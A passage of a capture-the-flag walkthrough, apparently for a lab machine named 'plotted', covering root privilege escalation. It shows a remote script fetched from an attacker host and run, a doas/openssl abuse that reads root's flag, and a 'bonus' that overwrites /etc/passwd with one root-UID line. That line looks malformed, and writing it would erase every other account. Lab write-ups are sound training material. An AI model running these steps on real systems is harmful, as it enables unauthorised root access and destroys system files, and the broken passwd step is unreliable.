 ## Root Flag

* Use linPEAS for privilege escalation enumeration:

```bash
mkdir web; cd web
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh
python3 -m http.server 8000
```

* On victim:

```bash
cd /tmp
wget http://<ATTACKER_IP>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**linPEAS finds:**

```
Doas SUID binary:
-rwsr-xr-x 1 root root 39008 /bin/doas
/etc/doas.conf allows: permit nopass plot_admin as root cmd openssl
```

* Exploit to read root flag:

```bash
plot_admin@plotted:~$ doas -u root openssl enc -in "/root/root.txt"
REDACTED
```

---

## BONUS: Get a Root Shell

* Generate a SHA512 password hash:

```bash
mkpasswd -m sha-512 -S salt1234 <YOUR_PASSWORD>
```

* On the victim machine:

```bash
echo 'r00t:<YOUR_HASH>:0:0:/root:/bin/bash' | doas -u root openssl enc -out "/etc/passwd"
```

* Now you can `su r00t` and login with your password for a full root shell.

---